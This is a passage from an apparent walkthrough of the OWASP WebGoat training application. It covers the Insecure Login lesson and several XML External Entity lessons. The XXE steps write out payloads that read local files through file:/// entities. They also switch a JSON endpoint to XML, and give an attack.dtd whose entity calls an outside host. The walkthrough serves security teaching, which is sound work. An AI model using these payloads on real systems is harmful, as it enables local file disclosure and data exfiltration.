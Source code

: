 ##### Insecure Login

2.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Lesson number does not turn green on validation.

*   Open the _Development Tools_ in the browser, and go to the _Network_ tab.
*   On WebGoat, click on **Log in**.
*   Locate the query to `start.mc` in the _Network_ tab and click on _Parameters_.
*   Notice the parameters `{"username":"CaptainJack","password":"BlackPearl"}`.

#### **(A4) XML External Entities (XXE):**

##### XXE

3.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try submitting the form and see what happens  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use ZAP/Burp to intercept the request and try to include your own DTD  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try to include a doctype "(<!DOCTYPE...)" in the xml  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The include can be as follows: <!DOCTYPE user \[<!ENTITY root SYSTEM "file:///"> \]>  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Do not forget to reference the entity  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) In the comment you should references: <comment><text>&root;test</text></comment>

*   Open the _Development Tools_ in the browser, and go to the _Network_ tab.
*   On WebGoat, post a comment.
*   Locate the query to `simple` in the _Network_ tab and click on _Edit and Resend_.
*   Edit the body with: `<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>`.

![XXE 3](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-3.png)

4.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Take a look at the content type  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Does the endpoint only accept json messages?

*   Open the _Development Tools_ in the browser, and go to the _Network_ tab.
*   On WebGoat, post a comment.
*   Locate the query to `content-type` in the _Network_ tab and click on _Edit and Resend_.
*   Edit the body with: `<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>`. and edit the header `Content-Type: application/json` with `Content-Type: application/xml`.

![XXE 4](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-4.png)

6. Although it is not a challenge, a small mistake has crept into the lesson, be careful to enter the right URL to be able to perform the test.  
  
**attack.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY ping SYSTEM 'http://host:port/landing?test=HelloWorld' >
```  
  